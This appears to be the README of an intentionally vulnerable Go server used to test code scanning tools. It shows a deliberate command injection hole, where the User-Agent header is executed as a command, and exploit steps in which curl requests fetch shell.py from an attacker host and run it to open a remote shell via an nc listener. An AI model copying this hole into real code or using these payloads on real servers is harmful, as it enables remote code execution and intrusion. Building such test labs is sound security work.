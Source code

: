 # vulnerable-repo
This is an intentionally vulnerable repo to test code scanning tools with


## Go Server

You can start the golang server by running

```
go run main.go
```

This will start a server on port `:8080`.

Access `http://localhost:8080/` and you will see it print out your client headers!


### Environment Setup

Attacker Docker Image

```
docker run -p 8090:8090 -p 4443:4443 --name attacker -d -it debian:latest
docker exec -it attacker /bin/bash
apt update
apt install ncat
nc -l 8090
```

Server

```
docker build --tag vulnerable-server .
docker run -p 8080:8080 --name server -d -it vulnerable-server
```



### Vulnerability 

You may have noticed when inspecting the code there is a bit of a vulnerability in this server...

For some reason User-Agent is being executed as if it was a command on the server.

```
    ua := r.Header.Get("User-Agent")
    out, err := exec.Command(ua).Output()
```

This means the server is vulnerable to command injection attacks!


### Exploit

You can modify the User Agent string in Chromium browers by opening the developer tools >> more tools >> network conditions.
Then deselect under User Agent "Use Browser Default" and you can now input any string you want into the user agent. 


Also you can run using curl...

#### Install the shell 

```
curl -H "User-Agent: curl http://<attackerip>:4443/shell.py >> /tmp/shell.py" http://<serverip>:8080
```

#### Start the nc listener on the attacker
```
nc -l 4443
```


#### Execute the shell on the victim
```
curl -H "User-Agent: python3 /tmp/shell.py" http://<serverip>:8080
```

